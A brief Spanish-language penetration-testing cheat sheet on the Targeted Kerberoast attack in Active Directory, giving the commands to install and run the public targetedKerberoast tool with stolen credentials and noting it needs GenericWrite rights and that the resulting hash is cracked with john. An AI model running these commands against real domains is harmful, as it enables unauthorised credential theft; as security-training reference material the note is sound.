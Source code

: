 # Target Kerberoast 

Tags: #AD #Kali 

Es una herramienta que **asigna temporalmente un SPN** a una cuenta de usuario **controlada por el atacante**, para después **solicitar un TGS** y obtener su **hash crackeable**.

```bash 
❯ git clone https://github.com/ShutdownRepo/targetedKerberoast    # Clonar para obtener la tool 

❯ pip3 install -r requirements.txt --break-system-packages
```

```bash 
❯ python3 targetedkerberoast.py -u 'user' -p 'passwd' -d domain.corp --dc-ip IP 

Notas:
	1. Este ataque funciona si el usuario del cual tenemos las credenciales tiene los derechos de 'Generic Write' sobre el otro usuario  
	2. Despues de obtener el hash, crackearlo con la herramineta john 
```